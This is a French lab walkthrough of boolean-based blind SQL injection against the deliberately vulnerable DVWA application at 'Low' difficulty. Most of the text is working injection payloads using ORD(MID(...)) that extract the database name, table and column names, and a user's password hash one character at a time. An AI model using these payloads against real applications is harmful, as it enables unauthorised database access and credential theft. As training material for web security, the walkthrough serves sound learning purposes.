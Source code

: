 # Niveau "Low"

Une injection à l'aveugle diffère d'une injection plus classique par le fait que l'application va répondre à mes requêtes seulement par oui ou par non.

Par exemple, l'application répond que l'`id` renseigné est bel et bien présent dans la base (soit une réponse oui) :

![](../../../../.gitbook/assets/bd92deecf1f42e9bfdbee0dfcd09a3ea.png)

Dans le cas contraire, l'application répond par un message spécifique (sur d'autres applications il peut s'agir de l'absence de message) indiquant que l'`id` est inexistant (réponse non) :

![](../../../../.gitbook/assets/105eeb5ddcd08b5c038a4cb90ea21f40.png)

Comprenant maintenant un peu mieux le principe de l'injection à l'aveugle, il me reste plus qu'à identifier et exploiter l'injection.

L'injection du caractère spécial `"'"` ne déclenche pas d'erreur, il me faut alors trouver une autre manière de confirmer la présence d'une faille SQL :

![](../../../../.gitbook/assets/36e615b1ddf5aed704bcef8c75cbb216.png)

Il existe plein de possibilités pour cela, en voici une. Je sais que l'`id` `"1"` existe, je vais donc tenter de modifier la requête afin d'ajouter une clause `AND` :

![](../../../../.gitbook/assets/079ff9c143393da1eb378be8a82531bd.png)

La réponse négative n'indique pas la présence d'injection SQL à elle-seule, mais couplée à une seconde réponse :

![](../../../../.gitbook/assets/aa544dbe054a0a4a3d589c2c659b8d23.png)

Révèle bien l’existence de la vulnérabilité.

La première étape est de récupérer le nom de la base de données utilisée par l'application. Pour rappel, l'application ne peut répondre seulement que par oui ou par non, je vais donc gentiment demander à l'application si la première lettre du nom de la base commence par `"a"`, par `"b"`, par `"c"` etc ... (j'ai ajouté le premier `"'"` seulement pour la coloration syntaxique) :

```sql
'1' AND ORD(MID(DATABASE(),1,1)) = 100 -- 
```

![](../../../../.gitbook/assets/56d90ac2310dcbe54822f6c4d234b562.png)

_Explications_

Ici, je demande à l'application si la première lettre du nom de sa base de données est `"d"` (`100` en décimal). L'application me répond par l'affirmative.

* `DATABASE()` : renvoie la chaîne "dvwa"
* `MID(DATABASE(),1,1)` : renvoie le première caractère de la chaîne retournée par `DATABASE()`
* `ORD()` : renvoie l'équivalent décimal du caractère en paramètre

{% hint style="info" %}
Il est possible d'utiliser les opérateurs`>=` et `<=` puis d'affiner notre recherche au fur et à mesure
{% endhint %}

Soit pour la chaîne entière :

```sql
'1' AND ORD(MID(DATABASE(),1,1)) = 100 --   // d
'1' AND ORD(MID(DATABASE(),2,1)) = 118 --   // v
'1' AND ORD(MID(DATABASE(),3,1)) = 119 --   // w
'1' AND ORD(MID(DATABASE(),4,1)) = 97 --    // a
```

De plus, il est également possible de déterminer tout d'abord la longueur de la chaîne renvoyée par la fonction appelée (ici `DATABASE()`) :

![](../../../../.gitbook/assets/08551d416e3b89c75f132839073a942e.png)

Je continue avec la récupération des noms des tables de cette base. Etant en aveugle, je récupère en premier lieu, le nombre de tables existants dans la base (`50` représentant `"2"` en décimal) :

![](../../../../.gitbook/assets/243bd89dd43b2063f7372d4deab836cb.png)

Puis les noms des deux tables :

```sql
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),1,1)) = 103 --  // g 
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),2,1)) = 117 --  // u
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),4,1)) = 115 --  // s
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),5,1)) = 116 --  // t
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),6,1)) = 98 --   // b
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),7,1)) = 111 --  // o
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),8,1)) = 111 --  // o
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),9,1)) = 107 --  // k
```

```sql
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 1,2),1,1)) = 117 --  // u 
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 1,2),2,1)) = 115 --  // s
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 1,2),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 1,2),4,1)) = 114 --  // r
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 1,2),5,1)) = 115 --  // s
```

Je détermine ensuite le nombre de colonnes de la table `users` , soit ici 8 (`56` en décimal) :&#x20;

```sql
'1' AND ORD(MID((SELECT COUNT(column_name) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa'),1,1)) = 56 -- 
```

![](../../../../.gitbook/assets/cb2d037474143c3255e745e0928d9279.png)

Puis je retrouve les noms des colonnes (ici en exemple `user` et `password`) :

```sql
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),1,1)) = 117 --  // u 
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),2,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),4,1)) = 114 --  // r
```

```sql
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),1,1)) = 112 --  // p 
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),2,1)) = 97 --   // a
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),3,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),4,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),5,1)) = 119 --  // w
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),6,1)) = 111 --  // o
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),7,1)) = 114 --  // r
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),8,1)) = 100 --  // d
```

Finalement, l'empreinte du mot de passe de notre victime (ici Pablo) :

```sql
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),1,1)) = 48 --   // 0  
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),2,1)) = 100 --  // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),3,1)) = 49 --   // 1
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),4,1)) = 48 --   // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),5,1)) = 55 --   // 7
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),6,1)) = 100 --  // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),7,1)) = 48 --   // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),8,1)) = 57 --   // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),9,1)) = 102 --  // f
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),10,1)) = 53 --  // 5
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),11,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),12,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),13,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),14,1)) = 52 --  // 4
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),15,1)) = 48 --  // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),16,1)) = 99 --  // c
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),17,1)) = 97 --  // a
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),18,1)) = 100 -- // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),19,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),20,1)) = 51 --  // 3
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),21,1)) = 100 -- // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),22,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),23,1)) = 53 --  // 5
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),24,1)) = 99 --  // c
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),25,1)) = 55 --  // 7
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),26,1)) = 49 --  // 1
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),27,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),28,1)) = 57 --  // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),29,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),30,1)) = 57 --  // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),31,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),32,1)) = 55 --  // 7
```

Soit :

![](../../../../.gitbook/assets/6d75b9397dbe0c57747a75e7b2a5485c.png)

{% hint style="info" %}
On se concentre ici seulement sur l'utilisateur Pablo mais il est bien sur possible de récupérer tous les noms des utilisateurs ainsi que les mots de passe associés en utilisant la même technique
{% endhint %}
